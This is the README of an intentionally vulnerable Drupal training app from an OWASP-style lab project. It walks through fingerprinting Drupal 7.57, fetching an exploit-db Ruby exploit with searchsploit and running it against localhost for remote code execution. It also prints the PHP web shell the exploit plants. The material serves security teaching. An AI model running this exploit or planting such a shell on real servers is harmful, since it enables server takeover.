 # Cimentech

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center">
    <img src="images/attack1.png"/>
</p>

Cimentech is a simple web application built with Drupal that contains an example of a component with a known vulnerability and its main goal is to demonstrate how an attacker could exploit it.

## Index

- [Definition](#what-does-it-mean-to-use-a-component-with-known-vulnerabilities)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What does it mean to use a component with known vulnerabilities?

Imagine that components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

The main goal of this app is to discuss how **Vulnerable and Outdated Components** can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/cimentech
```

```sh
make install
```

Then simply visit [localhost][app] ! 😆

## Get to know the app 🏗

To properly understand how this application works, you could:

- Visit its homepage!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of a vulnerable Drupal version allows for remote code execution

It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Afterward, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="images/attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as shown below:

<img src="images/attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated with that version, in this case, Drupal 7.57. The results of the search are depicted in the image below:

<img src="images/attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit), an attacker could also find this same result via a terminal. To install it, simply type the following in your OSX terminal (keep in mind it might trigger your anti-virus software) :

```sh
⚠️ 'The next command will install several exploit codes in your system and many of them may trigger antiviruses alerts'

brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command will help you to copy the exploit to your `/tmp` folder:

```
cp /usr/local/opt/exploitdb/share/exploitdb/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTE**: You need to have Ruby installed on your system to run the exploit, for information on how to install it, click [here][1]!

**NOTE 2**: If you came across an execution error when trying to run the exploit, please have a look at this [Issue][4] for information on how to proceed.

The exploit works by adding into the server a malicious `s.php`, which allows remote code execution on it via following malicious content:

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command, such as `whoami`, to verify that we indeed have an RCE on the server, as shown by the image:

<img src="images/attack6.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute code remotely through the exploit above

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:80
[secdevlabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a6/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212
